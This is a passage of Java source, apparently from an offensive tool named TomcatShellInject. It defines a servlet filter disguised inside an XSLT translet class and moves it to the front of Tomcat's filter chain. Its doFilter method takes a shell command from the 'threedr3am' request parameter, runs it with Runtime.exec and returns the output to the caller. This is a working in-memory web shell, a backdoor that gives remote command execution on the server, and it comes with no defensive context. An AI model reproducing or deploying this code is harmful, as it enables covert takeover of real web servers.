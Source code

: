 ```java
                                    filterMaps[i] = filterMaps[0];
                                    filterMaps[0] = filterMap;
                                    break;
                                }
                            }
                        }
                    }
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
        throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse,
        FilterChain filterChain) throws IOException, ServletException {
        System.out.println(
            "TomcatShellInject doFilter.....................................................................");
        String cmd;
        if ((cmd = servletRequest.getParameter("threedr3am")) != null) {
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
            return;
        }
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {

    }
}
```
